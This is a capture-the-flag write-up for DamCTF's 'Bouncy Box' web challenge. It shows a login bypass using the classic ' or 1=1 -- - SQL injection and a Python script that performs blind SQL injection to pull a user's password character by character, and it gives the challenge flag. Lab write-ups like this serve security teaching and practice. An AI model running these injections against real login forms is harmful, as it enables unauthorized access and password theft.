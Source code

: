 # Bouncy Box

Here is my writeup for the first web challenge of DamCTF

The challenge url is https://bouncy-box.chals.damctf.xyz

## First look

First we can see a little game, when we lose it asks us to login.

![login_page](images/login.png)

There is a lot of way to bypass authentication but most of time it's SQL Injection, so we can supposed that it's an SQL Injection challenge.

## First Injection

I tried to inject ``' or 1=1 -- -`` (the most basic SQLi) and it worked!

![connected](images/connected.png)

We can see a button to get the flag but it's not that easy...

We have a second login but the injection is impossible, maybe the query is prepared. So how to bypass this authent...

We can easily do a blind SQL injection on the first login form to retrieve the password. Here is my code:
```py
import requests
import string

chars = string.printable[:94]

result = ""

for i in range(1, 100):
    found = False
    for char in chars:
        data = {'username_input':f"boxy_mcbounce' AND ascii(substring(password, {i}, 1)) = {ord(char)}-- -", "password_input":"random"}
        r = requests.post("https://bouncy-box.chals.damctf.xyz/login", data=data)
        if "boxy_mcbounce's Stats" in r.text:
            result += char
            print(f"\r[\x1b[92m+\x1b[0m] Found: {result}", end="")
            found = True
            break
    if not found:
        print(f"[\x1b[92m+\x1b[0m] Password found: {result}")
        break
```

We just have to wait for the password printed and put it in the second form.

Flag: ``dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}``